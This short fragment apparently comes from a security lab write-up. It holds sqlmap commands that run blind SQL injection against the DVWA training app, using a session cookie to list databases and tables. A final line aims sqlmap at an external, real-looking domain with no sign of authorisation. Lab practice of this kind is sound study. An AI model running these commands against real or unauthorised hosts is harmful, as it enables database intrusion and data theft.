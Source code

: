 
```bash
sqlmap -u "http://host.docker.internal/vulnerabilities/sqli_blind/?id=1&Submit=Submit" \
--cookie "PHPSESSID=vj4j0b0s5vo65mdd54ohullaq4;security=low" --dbs

sqlmap -u "http://host.docker.internal/vulnerabilities/sqli_blind/?id=1&Submit=Submit" \
--cookie "PHPSESSID=vj4j0b0s5vo65mdd54ohullaq4;security=low" -D dvwa --tables
```

sqlmap -u "https://demo-npa-articles.liningtonlab.org" --dbs


